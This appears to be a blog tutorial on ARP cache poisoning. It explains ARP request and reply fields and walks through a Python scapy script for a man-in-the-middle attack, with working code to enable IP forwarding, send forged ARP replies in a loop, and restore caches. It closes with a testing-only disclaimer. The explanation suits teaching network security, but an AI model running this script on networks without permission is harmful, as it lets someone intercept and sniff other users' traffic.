

Address resolution protocol (ARP) is a protocol used on the LAN to convert IP addresses to MAC addresses.

ARP poisoning is where one or more targeted networked devices have their cache table manipulated into associating the wrong MAC address with an IP. When the poisoned target now sends data to that IP the traffic will instead go to the new MAC address associated with it.

This is a quick guide to ARP poisoning and a walkthrough of the main parts of a python script using scapy to perform ARP poisoning.

How ARP works
-------------
ARP is used to resolve MAC addresses from IP addresses, this is done using a request and reply method. For example hostA will send a request to the broadcast (FF:FF:FF:FF:FF:FF) asking 'who has 192.168.1.1 tell me?', the host with that IP will then reply with its MAC address. The image bellow shows an ARP request and reply captured by Wireshark.

The request and reply packets are easy to understand, the image bellow shows both packets and their fields. Note that the request packet has its opcode set to 1 and is sent to broadcast. All hosts on the network will see the request and only reply if it has the target IP specified in the packet. Note the reply packet has its opcode set to 2 and contains the senders MAC and IP addresses (ARP reply in image bellow). 

Once the target has replied with its MAC address its stored in the computers ARP cache, every so often the cache will update its self by making another ARP request and storing the reply. Because it doesn't use authentication or verify the reply packet anyone can send a crafted reply packet and it will be accepted.

To see your ARP cache in Windows or Linux use the command line and type `arp -a`, this should show a list of IP's and MAC addresses associated with them.

Cache poisoning
---------------
The cache is an internal table on each networked device containing an IP and its associated MAC address. Cache poisoning is where the table is manipulated into associating the wrong MAC address with an IP. When the target now sends data the traffic will instead go the new MAC address associated with it (see image bellow). 

Cache poisoning is possible because no authentication or verification is done to check the reply packet, we can simply craft a reply packet and send it to a target. This will poison its cache temporarily. With the targets cache poisoned any data it sends to that IP will be sent to the attacker instead.

The most common type of attack this is used for is man in the middle (MITM). This is where an attacker can see all traffic going back and forth between two targets. The diagram above shows that normal traffic should flow between the router and the target. However once both targets are poisoned all traffic will flow to the attacker.

Using scapy to poison
---------------------
Scapy is a packet manipulation module for python, it allows us to easily create or edit packets as well as send and receive them. The image bellow shows the packets that need to be created in order to poison two targets. Note that the only field we need to change is the sender MAC address (hwsrc in scapy).

A simple python script using scapy needs to perform four main tasks, create poisoned packets, constantly send them, froward traffic, then restore the original data to the cache before exiting. 

[Click here for the full script](https://github.com/cptpugwash/ARP-MITM-Poison/blob/master/arp-poison.py)
This python script uses scapy to perform a MITM attack using ARP poisoning, the following is a breakdown of the scripts main functions.

Script usage:

	python arp-poison.py -g 192.168.1.1 -t 192.168.1.109
	-g gateway
	-t target IP

### Forwarding traffic
In the main function IP forwarding is enabled to forward all the traffic back and forth between the two targets, this snippet of code requires root access to write to system file.

<figure class="lineno-container">

	try:
		with open('/proc/sys/net/ipv4/ip_forward', 'w') as f:
			f.write('1\n')
	except Exception, e:
		print "[-] Could not enable IP forwarding, check permissions"
		sys.exit(0)

</figure>

### Creating the packets and sending them
Creating the packets is easy with scapy, we just pass ARP() the fields required to create the packet. Note that op is set to 2 for a reply packet, and that scapy will set the hwsrc (sender MAC address) as the interfaces MAC when sending the packet.

Sending 1 packet to each target will only poison it temporarily. Packets need to be sent every few seconds so as to constantly update the cache and prevent the real ARP reply from updating it.

<figure class="lineno-container">

def poison(target, target_mac, gateway, gateway_mac):
	target_poison_pkt = ARP(op=2, psrc=gateway, hwdst=target_mac, pdst=target)
	gateway_poison_pkt = ARP(op=2, psrc=target, hwdst=gateway_mac, pdst=gateway)

	print "[*] Attack started *-* --> pew --> pew"

	while True:
		send(target_poison_pkt)
		send(gateway_poison_pkt)
		time.sleep(2)

</figure>

Once the attack has started all traffic between the targets will flow through the attacking device making it the MITM, from here further attacks can be performed such as sniffing traffic.

### Restoring correct info
Once we're finished with the attack we need to restore the correct info to both targets and stop forwarding packets. If the script just exits the targets will still send data to the wrong device and the traffic wont be forwarded. The user may also notice connection issues until the ARP cache restores the correct IP and MAC information.

<figure class="lineno-container">

def restore(target, target_mac, gateway, gateway_mac):
	send(ARP(op=2, psrc=target, hwsrc=target_mac, hwdst=gateway_mac, pdst=gateway), count=5)
	send(ARP(op=2, psrc=gateway, hwsrc=gateway_mac, hwdst=target_mac, pdst=target), count=5)

	with open('/proc/sys/net/ipv4/ip_forward', 'w') as f:
			f.write('0\n')

	sys.exit(0)

</figure>

These three functions form the basis for any ARP poison script, the example script can be found [here.](https://github.com/cptpugwash/ARP-MITM-Poison) Only use the script within your own network for testing or where you have written permission to do so. 